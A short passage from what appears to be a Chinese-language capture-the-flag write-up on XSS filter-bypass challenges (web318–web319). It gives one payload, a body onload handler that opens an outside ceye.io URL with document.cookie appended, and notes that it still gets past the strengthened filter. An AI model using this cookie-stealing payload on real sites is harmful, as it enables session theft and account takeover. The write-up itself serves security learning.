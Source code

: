 ![](.\XSS\图片\web318.png)



### web319

过滤条件又增加了

```
<body onload="window.open('http://hi8y3b.ceye.io/'+document.cookie)"></body>
```

但这个payload依旧坚挺。

![](.\XSS\图片\web319.png)
